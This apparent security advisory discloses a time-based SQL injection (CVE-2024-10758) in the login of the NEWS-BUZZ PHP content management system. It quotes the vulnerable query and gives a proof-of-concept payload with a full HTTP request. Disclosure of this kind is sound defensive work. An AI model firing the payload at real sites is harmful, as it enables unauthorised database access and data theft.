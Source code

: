 ## Vulnerability Details:
- **Application Name**: Content Management System
- **Software Link**: [Download Link](https://code-projects.org/content-management-system-in-php-with-source-code-2/)
- **Vendor Homepage**: [Vendor Homepage](https://github.com/anirbandutta9/NEWS-BUZZ)
- **BuG**: Time-Based SQL Injection
- **BUG_Author**: egsec

## About project:
The Content Management System In PHP is a simple project that allows users to post and manage various kinds of news content.

## Vulnerability Description:
- There is a sql injection vulnerability in the login part of the index.php file. It allows an attacker to manipulate the SQL query and potentially perform unauthorized actions on the database. 

## Vulnerable Code Section:
```php
$query = "SELECT * FROM users WHERE username = '$username'";
$result = mysqli_query($conn, $query) or die(mysqli_error($conn));
```
- In this line, the `$username` variable is directly embedded into the SQL query without proper handling. This allows an attacker to inject malicious SQL code.

## Proof of Concept (PoC):
- Location: `http://localhost/NEWS-BUZZ/index.php`
- Time-Based SQL Injection Payload: `' OR sleep(10)#`
- Poc Video : [Video Link](https://youtu.be/ObW-S05rYVI)
- request
```python
POST /NEWS-BUZZ/login.php HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:132.0) Gecko/20100101 Firefox/132.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 69
Origin: http://localhost
Connection: close
Referer: http://localhost/NEWS-BUZZ/index.php
Cookie: PHPSESSID=456n0gcbd6d09ecem39lrh3nu9
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i

user_name=admin%27+or+sleep%2810%29%23&user_password=adminpass&login=
```
- The response will come called time by using `sleep()` function.

## Impact:
- In a time-based SQL injection attack, an attacker manipulates SQL queries to measure response times and infer information based on delays. This type of attack is useful when the application doesn’t return direct errors or output that can be used to assess query behavior.
An attacker can use time-based SQL injection to extract the contents of a database.

## Reproduce:
- [vuldb.com link for CVE-2024-10758](https://vuldb.com/?id.282927)
- [cvefeed.io link for CVE-2024-10758](https://cvefeed.io/vuln/detail/CVE-2024-10758)
